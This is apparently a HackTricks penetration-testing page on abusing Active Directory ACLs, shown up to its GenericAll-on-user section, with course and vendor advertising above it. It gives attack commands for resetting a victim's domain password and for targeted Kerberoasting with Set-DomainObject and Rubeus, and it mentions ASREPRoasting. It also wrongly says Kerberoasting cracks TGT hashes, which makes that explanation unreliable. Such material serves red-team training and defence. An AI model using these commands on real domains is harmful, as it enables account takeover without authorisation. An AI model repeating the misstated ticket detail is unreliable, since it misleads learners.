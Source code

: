 # Abusing Active Directory ACLs/ACEs

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***


**This page is mostly a summary of the techniques from [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) and [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges). For more details, check the original articles.**


## **GenericAll Rights on User**
This privilege grants an attacker full control over a target user account. Once `GenericAll` rights are confirmed using the `Get-ObjectAcl` command, an attacker can:

- **Change the Target's Password**: Using `net user <username> <password> /domain`, the attacker can reset the user's password.
- **Targeted Kerberoasting**: Assign an SPN to the user's account to make it kerberoastable, then use Rubeus and targetedKerberoast.py to extract and attempt to crack the ticket-granting ticket (TGT) hashes.
```powershell
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:<username> /nowrap
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
```
- **Targeted ASREPRoasting**: Disable pre-authentication for the user, making their account vulnerable to ASREPRoasting.
